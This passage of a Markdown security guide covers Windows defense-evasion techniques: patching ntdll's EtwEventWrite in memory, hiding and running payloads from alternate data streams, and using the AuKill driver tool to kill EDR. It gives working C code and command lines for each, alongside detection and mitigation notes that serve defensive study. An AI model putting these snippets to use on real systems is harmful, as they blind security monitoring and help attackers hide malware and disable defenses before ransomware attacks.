 Defenders should monitor for changes to those registry keys and high-volume removal of PowerShell events.

### ETW (Event Tracing for Windows) Patch

Endpoint security products rely heavily on ETW. A popular 2024 evasion method is to
patch `ntdll!EtwEventWrite`/`EtwEventWriteFull` in memory so every ETW call returns `STATUS_SUCCESS`
without emitting the event:

```c
// 0xC3 = RET on x64
unsigned char patch[1] = { 0xC3 };
WriteProcessMemory(GetCurrentProcess(),
                   GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventWrite"),
                   patch, sizeof(patch), NULL);
```

Public PoCs (e.g. `EtwTiSwallow`) implement the same primitive in PowerShell or C++.  
Because the patch is **process-local**, EDRs running inside other processes may miss it.  
Detection: compare `ntdll` in memory vs. on disk, or hook before user-mode.

### Alternate Data Streams (ADS) Revival

Malware campaigns in 2023 (e.g. **FIN12** loaders) have been seen staging second-stage binaries
inside ADS to stay out of sight of traditional scanners:

```cmd
rem Hide cobalt.bin inside an ADS of a PDF
type cobalt.bin > report.pdf:win32res.dll
rem Execute directly
wmic process call create "cmd /c report.pdf:win32res.dll"
```

Enumerate streams with `dir /R`, `Get-Item -Stream *`, or Sysinternals `streams64.exe`.
Copying the host file to FAT/exFAT or via SMB will strip the hidden stream and can be used
by investigators to recover the payload.

### BYOVD & “AuKill” (2023)

Bring-Your-Own-Vulnerable-Driver is now routinely used for **anti-forensics** in ransomware
intrusions.  
The open-source tool **AuKill** loads a signed but vulnerable driver (`procexp152.sys`) to
suspend or terminate EDR and forensic sensors **before encryption & log destruction**:

```cmd
AuKill.exe -e "C:\\Program Files\\Windows Defender\\MsMpEng.exe"
AuKill.exe -k CrowdStrike
```

The driver is removed afterwards, leaving minimal artifacts.  
Mitigations: enable the Microsoft vulnerable-driver blocklist (HVCI/SAC),
and alert on kernel-service creation from user-writable paths.

---
